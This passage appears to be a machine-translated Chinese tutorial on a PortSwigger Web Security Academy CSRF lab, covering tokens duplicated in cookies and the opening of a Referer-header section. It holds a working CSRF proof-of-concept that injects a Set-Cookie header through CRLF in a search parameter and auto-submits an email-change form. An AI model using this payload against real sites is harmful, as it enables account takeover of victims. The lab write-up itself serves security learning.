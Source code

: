 **6:令牌在 cookie 中重复的 CSRF:**

有些应用程序只是复制 csrfkey cookie 和 csrf 令牌的值。在这种情况下，如果应用程序允许某些 cookie 设置漏洞，攻击者就不必获得有效的 csrf 密钥。他只需要在 cookie 和令牌中设置相同的值。

这种类型的辩护被称为双重提交辩护。在这种情况下，csrf 值是否有效并不重要，因为它们是相等的。

![](img/2b7627fb037297f66e0605c572596b19.png)

我们可以利用搜索功能中的相同漏洞在受害者的浏览器中设置 cookie 并生成 POC。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/my-account/change-email](https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="**fake**" />
      <input type="submit" value="Submit request" />
    </form>
 <img src="'"[**https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/**](https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/)**?search=hi%0d%0aSet-Cookie:%20csrf=fake"** **onerror="document.forms[0].submit()**;"/>
  </body>
  </body>
</html>
```

现在把有效载荷交给受害者。

**7: CSRF，其中引用验证取决于是否存在标头:**

除了基于 CSRF 令牌的保护，一些应用程序使用 HTTP Referer 标头来尝试对抗 CSRF 攻击，通常是通过确认请求来自应用程序自己的域。这种策略通常不太有效，并且经常被规避。

如果 refer 头不存在，某些应用程序会跳过验证。
